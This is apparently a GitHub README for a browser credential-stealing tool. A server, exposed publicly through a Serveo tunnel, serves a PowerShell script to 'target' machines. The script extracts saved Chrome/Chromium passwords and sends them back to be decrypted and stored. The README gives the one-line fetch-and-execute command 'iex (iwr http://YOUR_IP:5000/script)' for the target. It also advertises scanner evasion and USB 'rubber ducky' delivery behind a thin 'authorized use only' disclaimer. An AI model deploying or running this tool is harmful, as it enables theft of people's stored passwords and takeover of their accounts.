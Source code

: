 # Browser Credential Collector

A tool designed to securely collect and decrypt stored browser credentials from remote systems. This tool helps security professionals and system administrators assess password security and demonstrate how easily browser-stored credentials can be retrieved.

1. It will connect to a serveo tunnel allowing it to be accessable via the internet
2. Customizes a unique useragent per user request to ensure it isn't spammed
3. Decrypts the passwords locally
4. Every time you re-run the script it will get you a new Serveo URL such as https://28t8t8hgjh832h8hhoigi242ogn.serveo.net but the same one can be used many times until you stop the script from running.

## 🚨 Important Notice

This tool is intended for **AUTHORIZED USE ONLY**. Always obtain proper permissions before using on any system. Unauthorized use against systems you don't own or have explicit permission to test is illegal and unethical. Red team engagements and rubber duckies work awesome with this.

## 🔑 Features

- Securely collects stored browser credentials
- Automatically decrypts passwords using browser encryption keys
- Real-time monitoring dashboard
- Secure token-based authentication
- Protection against scanning and unauthorized access
- Public access via Serveo tunneling (optional)
- Rate limiting to prevent abuse

## 📋 Requirements

- Python 3.6+
- OpenSSH client (for Serveo tunneling)
- PyCryptodome (optional, for better decryption support)

## 💻 Quick Start

1. **Clone the repository**

```bash
git clone https://github.com/pentestfunctions/chromium_passwords_local_collection.git
cd chromium_passwords_local_collection
```

2. **Install optional dependencies**

```bash
pip install pycryptodome
```

3. **Run the server**

```bash
python3 credential_collector.py
```

4. **Execute the PowerShell script on target system**

```powershell
# Run this on the target machine
iex (iwr http://YOUR_IP:5000/script)
```

If you're using Serveo tunneling, the URL will be displayed in the console.

## 📚 How It Works

1. The server runs on your machine and generates unique tokens
2. When a target accesses the `/script` endpoint, they receive a customized PowerShell script with a unique token
3. The PowerShell script extracts stored browser credentials and securely sends them back to the server
4. The server decrypts and stores the credentials
5. All activity is monitored in real-time through the console dashboard

## 🔒 Security Features

- One-time tokens for script authentication
- Rate limiting to prevent abuse
- Scanner detection to block common vulnerability scanners
- IP blocking for suspicious activity
- All credentials stored locally in JSON format

## 📊 Understanding the Dashboard

The dashboard shows:
- Server information (local and public URLs)
- Collection statistics (credentials collected, success rates)
- Recent events
- Tunnel status (if using Serveo)
- List of collected credential files
- Blocked IPs

## ❓ Troubleshooting

**Error: "pycryptodome not found"**
- Install with: `pip install pycryptodome`

**Can't establish Serveo tunnel**
- Make sure SSH is installed and can connect to external services
- Try running with `--no-serveo` to use local network only

**No credentials collected**
- Verify the target system has Chrome/Chromium-based browsers installed
- Check that the PowerShell script is running with sufficient permissions
